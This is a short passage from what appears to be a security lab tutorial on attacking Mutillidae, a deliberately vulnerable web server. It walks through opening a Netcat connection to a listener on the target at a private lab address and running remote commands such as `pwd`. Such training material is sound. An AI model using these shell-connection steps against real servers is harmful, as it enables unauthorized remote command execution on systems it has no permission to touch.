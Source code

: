      ![Listener](Images/shell.png)
   
2. Next, we'll open a connection to the listener on a vulnerable web server using Netcat from the attacker's machine.

   - `nc 172.16.203.141 4444`

      - `nc`: Runs Netcat.
      - `172.16.203.141`: IP address of Mutillidae (the vulnerable web server).
      - `4444`: Port of the listener.

      ![Reverse Shell](Images/nc_listener.png)


   Leave the terminal window open. Now we can inject code into the vulnerable webpage.
   
   
3. Next, we'll test our exploit by running remote commands from the attack machine.
   
   - Run `pwd`.
   
     - Output should be similar to: `/owaspbwa/mutillidae-git`
   